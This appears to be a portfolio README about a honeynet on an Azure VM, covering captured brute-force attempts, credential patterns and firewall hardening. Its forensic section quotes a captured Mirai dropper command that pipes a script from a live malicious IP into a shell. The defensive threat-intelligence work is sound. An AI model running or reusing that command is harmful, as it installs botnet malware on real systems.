

# 🛡️ Global Threat Intelligence Node & Honeynet

## 📋 Executive Summary
Designed and deployed a high-interaction **Honeynet** (T-Pot Framework) on a hardened **Azure Virtual Machine**. The system acts as a decoy to lure, capture, and analyze real-world cyber attacks in a controlled environment. This project provides a live telemetry feed of global threat actor behavior, enabling the identification of emerging attack vectors, automated credential harvesting, and post-exploitation malware delivery.

**Key Metrics & Impact:**
* **Rapid Discovery:** The asset was targeted by automated botnets within minutes of deployment, recording **4,736 unauthorized connection attempts** to the management plane in the initial open-access testing phase.
* **Malware Capture:** Successfully captured and documented a live, fileless malware infection attempt attributed to the **Mirai Botnet**.
* **Proactive Hardening:** Mitigated 100% of unauthorized management probes by implementing **Zero-Trust Network Security Groups (NSGs)** and Source-IP Whitelisting at the network edge.

---

## 🗺️ I. Geographic Attack Mapping
Within 24 hours of deployment, the node captured real-time scanning and brute-force attempts from multiple international geographic regions, highlighting the extreme speed at which cloud assets are mapped by threat actors.

> *Dashboard visualization (Kibana) of inbound attack vectors, categorizing traffic by destination port and geographic origin.*

---

## 🎣 II. Credential Harvesting & Brute-Force Analysis
Utilizing the **Cowrie** high-interaction SSH/Telnet honeypot, the system captured thousands of automated dictionary attacks. 

### Credential Tag Clouds

> *Visual representation of the most frequently attempted username and password combinations. Note the high frequency of default credentials (`root`, `admin`) alongside targeted crypto-node names (`sol`, `solana`).*

### Targeted Infrastructure Sweeps

> *Log analysis revealed targeted sweeps looking for specific infrastructure, such as Solana cryptocurrency validators (`sol`, `validator`), demonstrating that modern botnets are financially motivated and highly specific.*

---

## 🦠 III. Post-Exploitation Forensics: Mirai Botnet Capture
Following a successful brute-force attack (`root/root`) by a South Korean IP address, the system captured the immediate post-exploitation keystrokes executed by the automated threat actor.

### The Cyber Kill Chain in Action:
1. **System Reconnaissance & Evasion:** The bot executed `/bin/./uname -s -v -n -r -m` using path obfuscation to bypass basic logging while fingerprinting the OS architecture.
2. **Fileless Execution (The Dropper):** The script attempted to navigate to a volatile memory directory (`/dev/shm`) and executed `wget -qO- http://196.251.107.133/bins/sin.sh | sh &`. This piped a malicious shell script directly into execution without saving it to disk.
3. **Redundancy:** Anticipating that `wget` might be uninstalled by security engineers, the bot immediately attempted a fallback connection using `nc` (Netcat) over TCP/3345.

### OSINT Attribution

> *Cross-referencing the extracted payload IP (`196.251.107.133`) using VirusTotal confirmed the infrastructure belongs to the **Mirai botnet**, corroborating the architecture-scanning behavior captured in the logs.*

---

## 🛠️ IV. Troubleshooting & Security Hardening
This deployment required significant manual engineering and hardening to transition from an automated install to a production-ready security asset.

| Symptom | Root Cause | Technical Resolution |
| :--- | :--- | :--- |
| **Container Exit Code 137** | **OOM (Out of Memory) Killer:** The ELK stack exceeded the 8GB RAM limit during Java heap initialization. | Upgraded Azure VM to **16GB RAM** to provide sufficient overhead for Elasticsearch and 20+ honeypot containers. |
| **`tpotinit` Loop (Exit Code 1)** | **Defective Install Script:** The automated installer failed to populate the `WEB_USER` environment variable. | Bypassed the abstraction layer and used `sed` to inject base64-encoded credentials directly into the `.env` file. |

### Zero-Trust Management Plane
Initial log analysis showed 4,736 unauthorized hits to the management port (64297). To mitigate the risk of an administrative compromise, I implemented a strict **Source-IP Whitelist** via Azure NSGs.

> *By restricting Ports 64294, 64295, and 64297 exclusively to `[YOUR_HOME_IP]`, the administrative attack surface was reduced to zero while keeping the honeypot sensor ports open to the public internet.*

---

## 🎓 V. Cybersecurity Domain Mapping
This project demonstrates practical application of core concepts from the **CompTIA Security+** and **Google Cybersecurity** frameworks.

| Cybersecurity Domain | Core Concept Applied |
| :--- | :--- |
| **Network Security** | **Zero Trust / Perimeter Defense:** Implemented IP whitelisting to enforce the Principle of Least Privilege on management interfaces. |
| **Security Architecture** | **Defense-in-Depth:** Segmented high-interaction traps (Cowrie) from the host OS management plane using cloud-native firewalls. |
| **Incident Response** | **Log Management & SIEM:** Utilized command-line utilities (`grep`, `awk`) and Kibana (KQL) to parse JSON logs and identify Indicators of Compromise (IOCs). |
| **Threat Intelligence** | **OSINT / Attribution:** Extracted IP addresses and file hashes from attack logs and utilized Open-Source Intelligence (VirusTotal) to attribute attacks to known threat actors (Mirai). |

---
*Disclaimer: This project was deployed in an isolated, cloud-hosted environment strictly for educational and threat intelligence gathering purposes.*
